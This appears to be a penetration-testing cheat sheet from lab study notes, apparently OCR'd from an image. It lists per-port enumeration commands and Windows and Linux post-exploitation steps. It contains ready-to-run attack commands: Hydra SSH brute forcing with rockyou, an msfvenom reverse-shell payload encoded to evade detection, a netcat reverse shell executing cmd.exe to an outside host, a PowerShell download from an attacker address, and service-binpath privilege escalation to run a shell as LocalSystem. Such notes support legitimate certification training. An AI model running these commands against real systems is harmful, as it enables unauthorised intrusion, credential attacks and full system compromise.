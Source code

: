 Initial Reconnaissance:
Main Nmap Scan: nmap -v -A -sS 10.11.1.X
Alternate Connect Scan: nmap -v -sT -p 0-10000 10.11.1.X

Ports and Services:
	21: FTP
		
Methods and Tools:
Notes:
Service version research
Google / ExploitDB from nmap scan
netcat/telnet interaction
nc 10.11.1.X 21  Commands: https://www.serv-u.com/features/file-transfer-protocol-server-linux/commands 
Nmap NSE FTP scripts
nmap -v 10.11.1.X --script “ftp*”
dotdotpwn
dotdotpwn -h 10.11.1.X -m ftp

22: SSH

Methods and Tools:
Notes:
Service version research
It’s almost never ssh, ExploitDB/Google 
hydra
Hydra -l user -P /usr/share/wordlists/rockyou.gz 10.11.1.X SSH


	25: SMTP

Methods and Tools:
Notes: 
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “smtp*”
smtp-user-enum
smtp-user-enum -u username -U usernamelist.txt -t 10.11.1.X




	53: DNS
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “dns*”
DNSenum
dnsenum URL.com


	80/443/8080: HTTP/HTTPS

Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “http*”
Dirbuster
GUI, /usr/share/wordlists/dirbuster
nikto
Nikto -h 10.11.1.X
Burpsuite
Webproxy, set up for Iceweasel
Curl
Data transfer, not as useful
Cadaver/davtest
Useful for webDAV stuff, more specific
Wpscan
Only for wordpress


	110: POP3
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “pop*”
Netcat/telnet interaction
nc 10.11.1.X 110





	135: RPC
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “rpc*”
enum4linux
enum4linux 10.11.1.X
rpcclient
rpcclient -U “” 10.11.1.X for null session

	139: NETBIOS
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
nbtscan
nbtscan -v 10.11.1.X
enum4linux
enum4linux 10.11.1.X

	445: SMB
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “smb*”
enum4linux
enum4linux 10.11.1.X
smbclient
smbclient "//10.11.1.128/wwwroot" - Connects to smb shares mapped with enum4linux
smbmap
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
nbtscan
nbtscan -v 10.11.1.X






Windows Post-Exploitation
	
General Toolkit
Method and Tools:
Notes and Links: 
Powershell File Download
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.243/test.txt','C:\test.txt)”
General File Transfer
https://blog.ropnop.com/transferring-files-from-kali-to-windows/ 
Mingw Compiling for Windows
i686-w64-mingw32-g++ -o evil.exe 37098.txt -lws2_32
Dos2unix (Gets rid of /bin/sh^5 error)
dos2unix <filename> 
Payload Encoding (On Kali) 
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.243 LPORT=1777 -f exe -o rever.exe -e x86/shikata_ga_nai -k
Windows netcat reverse shell
nc.exe 192.168.100.113 4444 –e cmd.exe


	Privilege Escalation
	
Method and Tools:
Notes and Links:
General Guide
http://www.fuzzysecurity.com/tutorials/16.html 
Accesschk.exe
https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk 
Windows Enum
https://github.com/azmatt/windowsEnum 
WinExpSugg
https://github.com/GDSSecurity/Windows-Exploit-Suggester 
WinPrivChk
https://github.com/pentestmonkey/windows-privesc-check 
Service Privesc
sc config SSDPSRV start= “auto”
net start SSDPSRV
net start UPNPHOST
sc config upnphost binpath= “C:\shell.exe”
sc config upnphost obj= “.\LocalSystem” password= “”
net start upnphost






Linux Post-Exploitation

General Toolkit:
Method and Tools:
Notes and Links:
Shell Cheatsheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 
Shell Escape
python -c 'import pty; pty.spawn("/bin/sh")'  
File Transfer
https://www.pks.mpg.de/~mueller/docs/suse10.2/html/opensuse-manual_en/manual/sec.filetrans.copy.html 
Exploit/multi/handler
Set payload
Set LPORT
Set LHOST
Set EXITFUNC


Privilege Escalation:

Method and Tools:
Notes and Links:
General Guide
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
Exploit Suggester
https://github.com/mzet-/linux-exploit-suggester 
LinEnum*
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh 
Unix Privesc Check
https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/upc.sh 
LinPrivChecker
https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

	
	
	

